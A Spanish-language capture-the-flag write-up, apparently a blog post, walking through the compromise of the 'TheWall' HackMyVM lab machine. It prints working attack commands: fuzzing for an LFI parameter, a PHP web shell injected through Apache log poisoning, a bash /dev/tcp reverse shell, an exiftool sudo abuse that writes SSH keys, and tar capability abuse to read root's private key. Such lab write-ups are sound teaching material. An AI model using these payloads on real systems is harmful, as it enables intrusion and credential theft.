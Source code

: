 ```yaml
---
layout: post
title: TheWall
date: 2022-11-26
categories: ["HMV"]
thumbnail: "assets/images/TheWall.png"
---
```


# TheWall [ Hack My VM ]

### Reconocimiento

**Descubrimiento de puertos y reconocimiento básico**
- `nmap -sS --min-rate 5000 192.168.1.114 -oG allPorts`
- `nmap -sCV -p22,80 192.168.1.114 -oN targeted`

No vemos nada interesante, sigamos investigando.

### Shell

Si miramos la página veremos que sólo pone un `Hello World!` en grande, por lo que poco podemos hacer, pero bueno, podemos seguir investigamos. Si vamos la ruta `/index.php` veremos el mismo mensaje, por lo que ya sabemos que está utilizando `PHP`.

Con esto aprendido podemos hacer `fuzzing` por archivos `PHP`, aunque si nos fijamos veremos que la página tiene un `WAF` (`Web Application Firewall`), por lo que si vamos muy rápido nos dará el mismo mensaje siempre (`Forbidden`). Para el siguiente paso utilizaré `GoBuster`, una herramienta creada en `GoLang` para hacer `fuzzing`.

```
gobuster dir -u "http://192.168.1.114" -w directory-list-2.3-medium.txt -x php - -delay 1s -t 1 --b 403,404
```

```
/index.php (Status: 200 ) [Size: 25 ]
/includes.php (Status: 200 ) [Size: 2 ]
```

Tras esperar un buen rato vemos dos archivos, el respectivo `index.php` e `includes.php`, si abrimos dicho archivo veremos una página en blanco, podemos intuir (por el nombre) que dispondrá de algún parámetro que apuntará a un archivo local, por lo que podemos tratar de `fuzzear` ese parámetro. Para ello utilizaré `WFuzz`:

```
wfuzz -u "http://192.168.1.114/includes.php?FUZZ=/etc/passwd" -w directory-list-2.3-medium.txt --hc=404 --hh=2 -t 200
```

```
000217299: 200 28 L 41 W 1460 Ch "display_page"
```

Tras otro rato esperando vemos el parámetro `display_page`, así que si nos vamos a la web podemos ver el archivo que queramos de la máquina. Acabamos de encontrar un `LFI`!

Con esto encontrado podemos hacer `Log Poisoning`, para eso me dirigiré a `/var/log/apache2/access.log`, vemos que existe, por lo que podemos  continuar. Con `NC` me conectaré al puerto `80` y mandaré una petición `GET` con un pequeño `script` en `PHP`.

- `nc 192.168.1.114 80`

```
GET <?php system($_GET['cmd']); ?>
```

Este pequeño `script` en `PHP` cogerá el `input` del parámetro `cmd`, lo ejecutará y lo mostrará en pantalla. Por lo que ya podemos ejecutar comandos en la máquina.

Para conseguir una Shell me copié de [`IronHackers`](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/) una Reverse Shell en `Bash` y la puse (intercambiando los `&` por `%26` para no obtener problemas) en el parámetro `cmd`. Antes de todo esto me puse en escucha con `NC` por el puerto `4444`.

- `nc -nlvp 4444`

Ahora sí, estamos preparados para lanzar la Reverse Shell:

```
http://192.168.1.114/includes.php?display_page=bash -c 'bash -i >%26 /dev/tcp/192.168.1.114/4444 0>%261'
```
Bien! Hemos recibido una Shell como `www-data`!

### Subida de privilegios #1

Ahora que ya estamos en la máquina víctima tenemos que tratar de ser `root`, pero antes de eso nos tenemos que convertir en `John`. Comencé por hacer `sudo -l` para listar todo lo que podía hacer en la máquina.

```
Matching Defaults entries for www-data on TheWall:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on TheWall:
    (john : john) NOPASSWD: /usr/bin/exiftool
```
Vemos que puedo ejecutar como `John` una herramienta llamada `ExifTool`. Si nos vamos a [`GTFOBins`](https://gtfobins.github.io/gtfobins/exiftool/#sudo) vemos que podemos escribir un archivo con dicha herramienta, por lo que decidí generarme un par de llaves `SSH` en mi máquina de atacante con `ssh-keygen` y copiar la clave pública (`id_rsa.pub`) en el directorio `/tmp/` de la máquina víctima.

Con esto hecho seguí las instrucciones de [`GTFObins`](https://gtfobins.github.io/gtfobins/exiftool/#sudo), quedándome así la instrucción:

```
sudo -u john /usr/bin/exiftool -filename=/home/john/.ssh/authorized_keys /tmp/id_rsa.pub
```

Esto ha hecho que copiemos nuestra `id_rsa` pública en un archivo llamado `authorized_keys`, el
cual al estar ahí nuestra llave podemos conectarnos como `John` sin proporcionar contraseña.

### Subida de privilegios #2

Una vez que estemos como `John` en la máquina ya podemos seguir nuestra misión, conseguir ser `root`, para ello (y tras varios minutos buscando) con el comando `id` listé los grupos a los que pertenecía, pertenecía al grupo `1000` , por lo que me puse a buscar ficheros que pertenezcan a dicho grupo.

- `find / -group 1000 2>/dev/null`

```
[ ... ]
/usr/sbin/tar
[ ... ]
```

Vemos un fichero llamado `tar`, vamos a ver qué capacidades tiene con `/sbin/getcap -r 2>/dev/null`:

```
[ ... ]
/usr/sbin/tar cap_dac_read_search=ep
[ ... ]
```

Como vemos tiene la capacidad de leer archivos. Me encontré un artículo de [`TBHaxor`](https://tbhaxor.com/exploiting-linux-capabilities-part-2/) que explica muy bien cómo poder explotar dicha capacidad, por lo seguí sus pasos, aunque cambiándolo un poco.

Si nos vamos a la raíz del sistema vemos dos archivos, un `id_rsa.pub` el cual
pertenece a `root` y otro archivo, `id_rsa` (el privado) que no podemos leer, por lo que podemos intuir que es de `root`. Vámonos al directorio `/tmp/`.

Bien, es la hora de explotar la capacidad de `TAR`, para ello hacemos lo siguiente:

- `/sbin/tar -czf root.id_rsa /id_rsa`

Como vemos se nos creó un archivo llamado `root.id_rsa` (o como le hayáis puesto) que si lo leemos tendrá la clave privada de `root`.

Enhorabuena! Hemos obtenido `root` en la máquina víctima de forma sencilla!
